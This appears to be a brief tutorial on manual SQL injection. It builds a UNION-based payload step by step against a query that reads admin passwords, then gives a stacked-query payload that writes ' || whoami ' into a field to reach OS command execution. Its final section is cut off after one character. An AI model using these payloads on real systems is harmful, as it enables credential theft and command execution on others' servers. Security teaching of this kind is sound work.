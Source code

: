 # Manual SQL Exploitation

## 1\) Force SQL query to print user defined output

* There are many ways in which print user defined input. The below SQL query will print user defined string "CUSTOMMESSAGE"
  * `SELECT 'CUSTOMMESSAGE'`
  * `SELECT TOP 1  'CUSTOMMESSAGE' AS` _`column_name`_ `FROM` _`table_name`_ `WHERE '1' = '1'`

### Example

* Given SQL query : `SELECT password FROM admins WHERE username=\'%s\'`
  * Input `%s` is user defined input.
  * _Payload =_ **%s**
* Step 1 : Make the current SELECT query to print null output.
  * This could be done here by sending invalid username for input `%s` 
  * Here we do not need to close the quote. If we add ending quote we will get syntax error.
  * _Payload_  =  **user\_2**
  * _Final SQL query_  =  **`SELECT password FROM admins WHERE username='user_2'`**
* Step 2 : Now we need to add another SELECT query which will be executed after this select in the same inline.
  * This could be done using `UNION` keyword.
  * Here we need to handle quotes properly to make final SQL query syntax correct. See the final SQL query will already have a ending quote, so payload needs to have a missing ending quote.
  * _Payload =_ **user\_2' UNION SELECT \_\_\_\_\_\_**
  * _Final SQL query  =_  **`SELECT password FROM admins WHERE username='user2' UNION SELECT ______'`**
* Step 3 : Now The last part is to define the SELECT statement such that it will print user defined input.
  * _Payload =_ **user2' UNION SELECT 'CUSTOMMESSAGE**
  * _Final SQL Query =_ **`SELECT password FROM admins WHERE username='user2' UNION SELECT 'CUSTOMMESSAGE'`**

## 2\) Executing Stacked SQL queries

* `SELECT filename FROM photos WHERE id=1; update photos set filename=' || whoami ' where id=3; commit; --`
* Ref : [https://secureops.io/2019/09/magical-image-gallery/](https://secureops.io/2019/09/magical-image-gallery/)

## Execute OS command

* d


